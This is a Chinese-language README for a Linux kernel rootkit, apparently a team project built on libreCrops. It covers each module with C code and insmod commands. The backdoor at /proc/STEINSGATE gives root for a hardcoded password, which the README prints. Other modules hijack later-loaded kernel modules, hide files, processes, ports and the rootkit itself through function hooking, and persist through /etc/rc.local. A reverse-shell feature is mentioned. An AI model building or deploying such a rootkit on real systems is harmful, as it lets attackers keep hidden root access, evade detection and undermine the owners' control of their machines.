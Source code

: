 ## 开发者：
Eidos: hide, backdoor, fake news(请允许下次鄙人摆大烂)

juhua: consistency

kitten: remote shellreverse

## 参考资料：
libreCrops所提全部功能相关的内容

是一个整合体（缝合怪）。

## 运行环境：
尚没有测试过全部版本，开发时采用的环境为`Ubuntu20.04 + Linux kernel 5.4.81`。但根据5.x中较小的代码变动以及该项目尚未使用`kall_sysm_table`进行函数挂钩，应该适用于大部分5.x版本内核。

涉及的后门在5.15版本无法使用（也不想改了，摆烂
## 主体文件：
`hide.c`为全部功能集成的`main`文件，如需添加功能，在`Makefile`后嵌入新模块并采用类似其余模块的方式进行函数调用即可。

特别注意：包含写保护信息的函数模块`./src/protect.o`需要放在队伍的最后。
```Makefile
hide-objs := ./src/hide.o ./src/backdoor.o ./src/fake.o \
./src/filehide.o ./src/prochide.o ./src/protocolhide.o \
./src/modhide.o ./src/protect.o
```
## 功能简介
### 后门设置：
```C
// 提权所需口令
#define PASSWORD "ELPSYKONGROO"
#define BACKDOOR "STEINSGATE" // 后门需要藏好
#define BACKDOOR_PATH "/proc" // 因此需要特地先藏好这个文件路径
```
本Rootkit设置了提权选项，其所在路径为`/proc/STEINSGATE`，在输入"ELPSYKONGROO"给/proc/STEINSGATE文件时，将会提权为Root。

该后门采用了进程隐藏的方式藏匿起来，无法通过`ls /proc`寻找到。

对应模块文件：`backdoor.c`
### 阻止后续插入模块正常运转：
```C
switch (module->state) {
    case MODULE_STATE_COMING:
        printk(KERN_INFO "Replacing init and exit functions: %s.\n", module->name);
        module->init = fake_init;
        module->exit = fake_exit;
        break;
    default:
        break;
}
```
利用`notifier_block`的链式通知机制，以及利用`data`段存放`module`的做法实现了以下功能：当之后有新的模块嵌入时，其无法正常运转其功能，而是执行`fake_init`和`fake_exit`这些由我们的模块设置好的自定义功能。

经过测试可以支持多个模块的阻止功能。

对应模块文件`fake.c`
### 文件隐藏：
```C
char* hide_path = "default";
char* file_name = "default";
module_param(hide_path, charp, 0000);
MODULE_PARM_DESC(hide_path, "the path of dirent for file hide.");
module_param(file_name, charp, 0000);
MODULE_PARM_DESC(file_name, "the file name to hide.");
```
文件隐藏功能，在默认的情况下不打开：我们通过设置`hide_path`和`file_name`为"default"作为默认值，并判断模块插入后这两个参数的赋值情况来确定是否执行文件隐藏。具体来说如下所示：
```C
if (strcmp("default", hide_path) == 0) {
    return;
}
                
printk(KERN_INFO "Opening the path: %s.\n", hide_path);          
filp = filp_open(hide_path, O_RDONLY, 0);                

if (filp == NULL) return;        
```
其原理为当前文件夹下的`iterate`函数挂钩修改，在此不赘述。

如果我们需要隐藏根目录下的文件"alien"，模块的使用方法为：
```shell
$ sudo insmod hide.ko hide_path="/" file_name="alien"
```
再次在根目录下使用`ls`命令，能够观测到`alien`文件的消失。

对应模块文件`filehide.c`

### 进程隐藏：
进程隐藏与文件隐藏原理保持一致，只是锁定了先前提及的hide_path为常量：
```C
#define PROC_HIDE_PATH "/proc"
```
特别的，由于我们之前设置的后门亦在该文件夹下，需特地把后门隐藏好再说。
```C
module_param(secret_proc, long, S_IRUSR);
MODULE_PARM_DESC(secret_proc, "the secret process number.");
```
若想隐藏进程号为1234的进程，使用方法：
```shell
$ sudo insmod hide.ko secret_proc=1234
```

该过程会让其在文件夹`/proc`下不可见。

对应模块文件：`prochide.c`

### 端口隐藏：
```C
int tcp4 = INT_MAX;
int tcp6 = INT_MAX;
int udp4 = INT_MAX;
int udp6 = INT_MAX;

module_param(tcp4, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(tcp6, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(udp4, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(udp6, int, S_IRUSR | S_IWUSR | S_IRGRP);

MODULE_PARM_DESC(tcp4, "tcp4 port.");
MODULE_PARM_DESC(tcp6, "tcp6 port.");
MODULE_PARM_DESC(udp4, "udp4 port.");
MODULE_PARM_DESC(udp6, "udp6 port.");
```
端口文件提供了四个可由命令行传递的参数，以模块隐藏TCP4端口为33，TCP6端口为34，UDP4端口为123，UDP6端口为124为例，使用的方法为：
```shell
$ sudo insmod hide.ko tcp4=33 tcp6=34 udp4=123 udp6=124
```

端口隐藏涉及了`seq_file`类型的文件操作函数`show`，通过挂载该函数可以实现端口的隐藏，通过阅读源码可知，四种类型均存放输出信息于`seq_file`数据结构的`buf`载荷之中，以`count`作为当前`buf`长度，在我们使用`netstat`或者`cat /proc/net/tcp`最后以`write`方式输出在终端上。以TCP4隐藏端口为例。
```C
last_count = seq->count;
snprintf(needle, NEEDLE_LEN, ":%04X", tcp4);
ret = real_seq_show_tcp4(seq, v);
last_size = seq->count - last_count;

if (strnstr(seq->buf + seq->count - last_size, needle, last_size)) {
    printk(KERN_INFO "Hiding port %d using needle %s.\n", tcp4, needle);
    seq->count -= last_size; 
}
```
本质上他修正`count`载荷大小为读入该端口信息前的长度，如果我们隐藏的信息是最后一个，那么因为长度不够而干脆不打印。如果我们隐藏的端口信息不是最后一个，那么之后的端口信息将会覆盖之，从而实现隐藏。

对应的模块文件为`protocolhide.c`

### 模块隐藏：
综合使用了用于`seq_file`的隐藏方式和文件隐藏方式，使得模块`hide`的存在信息不可见于`cat /sys/module`和`lsmod`命令。

对应的模块文件为`modhide.c`

### 可持久性（开机可用：
向/etc/rc.local写入insmod命令，开机时尚在内核态，因此可以轻松植入。

为了实现insmod功能，需第一次装载insmod利用后门STEINSGATE进行提权。（口令你懂得

ELPSYKONGROO

特别的，该功能不要和fake模块一起用，不然启动可能会出幺蛾子（不过内核抗错和解决异常能力还是可以的，若可以正常启动也可以

这边设置了一个选项进行选择：
```C
char* enable_consistency = "N";
module_param(enable_consistency, charp, 0000);
MODULE_PARM_DESC(enable_consistency, "whether enable consistency.");
```
会根据此信息选用不同的模块（笑死，大部分模块其实功能都开着
### shellreverse功能：
这个东西肯定不是Eidos来讲（逃

## 源码阅读：
参考`libreCrops`文件夹中的wiki。

## 一些别的：
赶快去写OS，Makefile给我用的像个屎山，代码优化空间巨大。